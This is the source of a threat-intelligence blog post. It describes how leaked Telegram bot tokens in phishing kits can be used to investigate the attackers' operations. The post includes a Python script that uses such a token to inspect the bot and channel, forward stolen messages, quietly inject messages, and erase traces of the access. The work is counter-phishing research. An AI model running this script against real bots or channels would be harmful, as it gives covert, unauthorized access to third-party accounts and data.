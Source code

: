 ```yaml
---
layout: threat-intel-default
title:  "Telegram Enumeration"
date:   2025-08-11
description: "qwerty"
author: "RedDuck"
tags: threat-intelligence
---
```


<style>
    pre{
  counter-reset:line-numbering;
  background:#2c3e50;
  padding:20px 20px 20px 20px;
  width:650px;
  color:#ecf0f1;
  line-height:140%;
    .line::before {
      content: counter(line-numbering);
      counter-increment: line-numbering;
      padding-right: 1em;
      /* space after numbers */
      padding-left:8px;
      width: 1.5em;
      text-align: right;
      opacity: 0.5;
      color:white;
  }
}
</style>

Many phishing sites rely on the Telegram bot API to exfiltrate victim data. Oftentimes, eCriminals are either
<ul>
    <li> deploying half-baked phishing kits they've purchased from somebody with a username akin to "__1337__phisher", or </li>
    <li> inexperienced and looking to make a quick profit with minimal effort (and likely more than a pinch of vibe-coding) </li>
</ul>

Fortunately for us, this means they often leave their Telegram bot API tokens publicly accessible, either through
<ul>
    <li> hard-coding it into the site's page source </li>
    <li> exposing it in POST requests and responses </li>
</ul>

With this token (and oftentimes, the accompanying channel ID to which the information is sent), we can use the native Telegram bot API to enumerate data pertaining to the attacker's operation, and what data they have stolen so far.

THE FOLLOWING WORKFLOWS SHOULD NOT BE USED AGAINST NON-ATTACKER CHANNELS. WE ONLY ANALYZE SITES SUBMITTED TO PHISHTANK.ORG, AND ARE CONFIMRED TO BE VALID PHISHES.

<pre>
    from datetime import datetime
    import requests
    import time
    import os

    USING = "BOT_TOKEN1"

    BOT_TOKENS = {"BOT_TOKEN1": "{BOT-TOKEN}"}

    CHANNEL_IDS = {"BOT_TOKEN1": "{BOT-CHANNEL-ID}"}

    MY_CHANNEL_IDS = {"BOT_TOKEN1": "{YOUR-CHANNEL-ID}"}

    URL = f"https://api.telegram.org/{BOT_TOKENS[USING]}/" 
</pre>

<pre>

# Workflow that will gather data specific to the channel that the attackers are using to exfiltrate data. If the channel ID is not known, you can use 
# determine this value by interacting with the attacker's bot; the response you receive will likely contain the ID of the channel used to exfiltrate victim data
channel_endpoints = {
    "getChatAdministrators":f"getChatAdministrators?chat_id={CHANNEL_IDS[USING]}",
    "getChat":f"getChat?chat_id={CHANNEL_IDS[USING]}",
    "getChatMembersCount":f"getChatMembersCount?chat_id={CHANNEL_IDS[USING]}",
    "createChatInviteLink":f"createChatInviteLink?chat_id={CHANNEL_IDS[USING]}",
}

</pre>

<pre>

# Workflow that will gather data on the bot, such as 
# - Name
# - Recent updates
# - Description
# and other general information that can be used later.
gen_endpoints = {
    "getUpdates":"getUpdates",
    "getWebhookInfo":"getWebhookInfo",
    "getMe":"getMe",
    "getMyCommands":"getMyCommands",
    "getMyName":"getMyName",
    "getMyDescription":"getMyDescription",
    "getAvailableGifts":"getAvailableGifts",
    "getWebhookInfo":"getWebhookInfo",
}

</pre>

<pre>

# Workflow that will remove evidence of your interaction with the attacker's bot. These endpoints will
# - Leave the chat you created to enumerate stolen data
# - Close the bot
# - Log the bot out
clear_tracks = {
    "leaveChat":f"leaveChat?chat_id={MY_CHANNEL_IDS[USING]}",
    "close":f"close",
    "logOut":f"logOut"
}

</pre>

<pre>

# Workflow that will send data specified by you to the attacker's channel. By default, this workflow sends empty messages, and disables notifications, so as to minimize the likelihood that the attacker will immediately detect any anomolous behavior. You may use this workflow to pollute the attacker's
# dataset, enumerate channel ID(s), etc.
sendMessage = {
    "sendMessage":f"sendMessage?text=''&chat_id={MY_CHANNEL_IDS[USING]}&disable_notification=True"
}

</pre>

<pre>

# Workflow to enumerate what data the attackers have stolen. 
forwardMessage = {
    "forwardMessage": f"forwardMessage?chat_id={MY_CHANNEL_IDS[USING]}&from_chat_id={CHANNEL_IDS[USING]}&message_id="
}

</pre>

<pre>

folder = f"{USING}-{datetime.today().strftime('%m-%d-%y')}"
try:
    os.mkdir(f"{folder}")
except:
    print("Folder already exists")
os.chdir(f"{folder}")

</pre>

<pre>

# This method will enumerate the contents of the attacker's chat, according to the message IDS that are 
# entered into X and Y (e.g., (0,1000) will gather the messages with IDs between 0 and 999).
def enumerate():
    for inc in range(X,Y): 
        for key in forwardMessage.keys():
            looking_at = key
            response = requests.get(URL+forwardMessage[looking_at]+str(inc))
            if "Bad Request: message to forward not found" not in response.text:
                with open(f"{looking_at}.json","a") as a:
                    a.write(f"{response.text}\n")

</pre>

<pre>

# This method queries the specific endpoint name that you enter as a parameter, so long as it's dictionary
# value exists elsewhere in the code.
def query_endpoint(endpoint):
    for key in endpoint.keys():
        looking_at = key
        response = requests.get(URL+endpoint[looking_at])
        print(response.text)
        if '{"ok":true' in response.text:
            with open(f"{looking_at}.json","a") as a:
                a.write(f"{response.text}\n")

</pre>

<pre>
# Gathers preliminary data on the attacker's Telegram channel, as well as information about the bot 
# itself.
def initial_recon():
    query_endpoint(gen_endpoints)
    query_endpoint(channel_endpoints)

</pre>

<pre>

# Define which stage of operations you want to execute (reconnaissance,enumeration, or clearing evidence
# of involvement)

STAGE = "#"

match STAGE:
    case "1":
        initial_recon()
    case "2":
        enumerate()
    case "3":
        query_endpoint(clear_tracks)

os.chdir("..")
</pre>

<script>
$("pre").html(function (index, html) {
    return html.replace(/^(.*)$/mg, "<span 
class=\"line\">$1</span>")
});
</script>